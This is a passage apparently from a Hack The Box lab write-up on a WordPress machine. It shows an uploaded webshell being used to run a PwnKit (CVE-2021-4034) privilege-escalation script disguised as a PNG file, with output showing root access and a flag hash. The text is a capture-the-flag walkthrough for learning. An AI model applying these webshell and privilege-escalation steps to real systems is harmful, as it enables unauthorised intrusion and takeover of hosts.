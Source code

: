 Then, let's check upload directory to find if the file is successfully uploaded.

![](attachments/pressed_12.png)

It is! Now we can use this file!
Let's change the file extension to `c` file through previously uploaded webshell.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python webshell_cmd.py  
Enter the command to execute (or 'exit' to quit): bash /var/www/html/wp-content/uploads/2024/12/pkwner.png

Command Output:
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment&#8230;
[+] Build offensive gconv shared module&#8230;
[+] Build mini executor&#8230;
uid=0(root) gid=0(root) groups=0(root),33(www-data)
d9c8a6af901fd6a5e118ad410757b84e
hello[+] Nice Job
```

